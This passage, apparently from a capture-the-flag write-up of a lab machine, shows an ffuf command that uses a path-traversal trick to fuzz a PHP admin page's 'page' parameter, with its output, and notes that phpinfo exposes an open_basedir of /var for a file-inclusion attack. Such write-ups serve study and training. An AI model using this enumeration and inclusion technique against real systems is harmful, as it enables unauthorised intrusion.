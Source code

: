 ```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u http://10.129.44.70/admin../admin_staging/index.php?page=FUZZ -fs 15349 -e .php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.44.70/admin../admin_staging/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Extensions       : .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 15349
________________________________________________

user.php                [Status: 200, Size: 24978, Words: 7266, Lines: 578]
info.php                [Status: 200, Size: 87036, Words: 6725, Lines: 1170]
tables.php              [Status: 200, Size: 29131, Words: 11707, Lines: 744]
dashboard.php           [Status: 200, Size: 40555, Words: 15297, Lines: 883]
index.php               [Status: 200, Size: 0, Words: 1, Lines: 1]
:: Progress: [5176/5176] :: Job [1/1] :: 1306 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

This displays the `phpinfo()` and reveals the `open_basedir` is set to `/var`. This mean we can include any file up from this directory.

[![open_basedir](/img/pikaboo/open_basedir.png)](/img/pikaboo/open_basedir.png)
